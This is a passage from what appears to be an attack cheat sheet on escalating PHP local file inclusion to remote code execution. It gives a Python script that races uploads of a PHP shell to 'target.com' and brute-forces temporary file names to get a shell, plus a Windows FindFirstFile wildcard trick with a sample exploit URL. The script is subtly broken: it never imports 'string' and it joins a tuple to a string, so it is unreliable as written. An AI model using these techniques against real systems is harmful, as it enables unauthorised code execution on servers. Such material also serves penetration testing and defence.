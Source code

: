 In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf


## LFI to RCE via upload (race)

* Upload a file and trigger a self-inclusion.
* Repeat the upload a shitload of time to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
* Enjoy our shell.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```


## LFI to RCE via upload (FindFirstFile)

:warning: Only works on Windows

`FindFirstFile` allows using masks (`<<` as `*` and `>` as `?`) in LFI paths on Windows. A mask is essentially a search pattern that can include wildcard characters, allowing users or developers to search for files or directories based on partial names or types. In the context of FindFirstFile, masks are used to filter and match the names of files or directories.

* `*`/`<<` : Represents any sequence of characters.
* `?`/`>` : Represents any single character.

Upload a file, it should be stored in the temp folder `C:\Windows\Temp\` with a generated name like `php[A-F0-9]{4}.tmp`.
Then either bruteforce the 65536 filenames or use a wildcard character like: `http://site/vuln.php?inc=c:\windows\temp\php<<`


## LFI to RCE via phpinfo()
